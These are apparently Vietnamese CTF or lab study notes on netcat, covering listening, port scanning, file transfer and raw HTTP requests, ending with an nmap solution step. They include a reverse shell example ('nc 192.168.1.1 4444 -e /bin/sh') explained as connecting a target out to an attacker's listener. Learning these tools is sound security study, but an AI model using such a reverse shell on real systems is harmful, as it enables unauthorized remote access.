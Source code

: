 - Listen mode

```jsx
nc -lv 1234
```

Một vài case khác : 

- Ping Specific Port on Website

```jsx
nc -zv google.com 443
Connection to google.com (142.250.71.142) 443 port [tcp/https] succeeded!
```

- Scanning port

```jsx
nc -zv 10.0.2.4 1234 
// -z :  report status 
//range of port 
nc -zv 10.0.2.4 1230-1235 

```

- Transfer file

```jsx
nc -lv 1234 < file.txt
```

```jsx
nc -zv 10.0.2.4 1234 > file.txt
```

- Send HTTP request

```jsx
printf "GET / HTTP/1.0\r\n\r\n" | nc -v google.com 80
```

- Reverse shell

```jsx
// tạo 1 kết nối từ máy target ra ngoài tới máy của attacker 

VD :
ncat -lvp 4444

nc 192.168.1.1 4444 -e /bin/sh 

//-e /bin/bash: Thực thi bash sau khi kết nối được thiết lập.
```

Bài giải  : 

- STEP 1  : `nmap`

```jsx
nmap -sV -T5 localhost 
```
